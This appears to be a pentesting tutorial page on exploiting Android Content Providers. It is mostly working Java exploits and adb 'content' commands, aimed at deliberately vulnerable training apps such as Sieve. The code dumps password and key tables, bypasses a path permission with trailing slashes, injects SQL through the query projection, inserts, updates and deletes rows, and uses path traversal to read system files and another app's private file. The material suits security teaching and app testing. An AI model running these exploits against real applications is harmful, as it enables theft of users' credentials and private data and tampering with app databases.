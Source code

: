 # Content Provider Hacking

**Overview**

Content Providers manage access to a structured set of data in Android applications. They encapsulate data and provide mechanisms for defining data security. They can be targeted for various vulnerabilities such as SQL Injection and Path-Traversal attacks.

**Key Areas of Focus**

1. **Exported Content Providers**
2. **SQL Injection Vulnerabilities**
3. **Path-Traversal Vulnerabilities**

***

### 1. Exported Content Providers

**What to Look For:**

* **Exported Providers**: Check if the Content Provider is exported in the `AndroidManifest.xml` file. An exported provider can be accessed by other applications.
* **Permissions**: Examine if the Content Provider is protected by permissions. If the `protectionLevel` is not set to `signature`, it might be circumvented.

```xml
<provider
    android:name="com.example.provider"
    android:authorities="com.example.provider"
    android:exported="true"
    android:permission="com.example.provider.READ_WRITE" />
```

<figure><img src="../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

#### **Code Exploit**&#x20;

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**AndroidManifest.xml** in all exploits should have those lines

```xml
<queries>
    <package android:name="com.apphacking.musicplayer"/>
</queries>
```

#### Case 1: Permission Bypass

Bypassing the custom user permission, because of the missing regex regarding to the PATH

Simply appending `/////` at the end of our content URI will bypass it.

**Code Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys/////");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

### 2. SQL Injection Vulnerabilities

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Steps to Identify:**

* **Check Query Methods**: Look at the `query` method to see if user inputs are properly sanitized.
* **Identify Tables**: Locate the tables used within the Content Provider by searching for `content://` URIs in the code.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Example Code to Identify SQL Injection Points:**

```java
String selection = "SELECT * FROM users WHERE username = ?";
Cursor cursor = db.rawQuery(selection, new String[]{username});
```

Now we need to identify the tables in the Java code. We can look for the keyword “`content://`“.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### **Case 1**

* We need to query the Passwords table to insert our own SQL statement
* SQL statement will be inserted via the projection
* SQL syntax is sth like: `SELECT * FROM Passwords WHERE ....`
* projection --> `SELECT '* FROM Key--;' (ignored .... FROM Passwords WHERE)`

**Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");

String[] projection = new String[] {"* FROM KEY--;"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

#### Case 2

* Granting the custom permissions of the sieve application to query the Key table.
* consider:
* Define them in the Manifest

```xml
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.READ_KEYS" android:protectionLevel="dangerous"/>
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.WRITE_KEYS" android:protectionLevel="dangerous"/>
```

* We need to ask for them during runtime.&#x20;

```java
String[] permission = new String[] {"com.mwr.example.sieve.READ_KEYS"};
ActivityCompat.requestPermissions(this, permission,9001);

Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys");

String[] projection = new String[] {"*"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**Example SQL Injection Attack:**

*   **Extract All Entries**:

    ```bash
    $ content query --uri content://com.example.provider/users --projection "* FROM users--"
    ```
*   **Inserting Data**:

    ```bash
    $ content insert --uri content://com.example.provider/users --bind name:s:admin
    ```
*   **Updating Data**:

    ```bash
    $ content update --uri content://com.example.provider/users --bind name:s:hacker --where "name='admin'"
    ```
*   **Deleting Data**:

    ```bash
    $ content delete --uri content://com.example.provider/users --where "name='admin'"
    ```

### 3. Path-Traversal Vulnerabilities

**Steps to Identify:**

* **Check Exported Providers**: Again, ensure the Content Provider is exported.
* **ParcelFileDescriptor**: Look for `ParcelFileDescriptor openFile` method and ensure the URI input is sanitized.

**Example Path-Traversal Attack:**

*   **Reading Arbitrary Files**:

    ```bash
    $ content read --uri content://com.example.provider/../../../../../../etc/hosts
    ```

#### Code Exploit

```java
public class MainActivity extends AppCompatActivity {

    InputStream inputStream;
    TextView textView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        textView = (TextView) findViewById(R.id.textView);

        Uri uri = Uri.parse("content://com.apphacking.musicplayer/../../../../../../../data/data/com.apphacking.musicplayer/files/mySecretFile");

        try {
            inputStream = getContentResolver().openInputStream(uri);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        }

        InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
        BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
        String fileInput = "";

        try {

            while (bufferedReader.ready()) {
                fileInput += bufferedReader.readLine();
                fileInput += "\n";
            }

        } catch (IOException e) {
                e.printStackTrace();
            }

        textView.setText("Accessing mySecretFile: \n" + fileInput);

    }
}
```

#### Summary

When pentesting Content Providers in Android applications, focus on:

* Ensuring Content Providers are not improperly exported.
* Checking for SQL Injection vulnerabilities by examining how inputs are handled in query methods.
* Identifying and exploiting Path-Traversal vulnerabilities by verifying how file URIs are processed.

By thoroughly investigating these areas, you can identify and exploit significant vulnerabilities in Android applications' Content Providers.

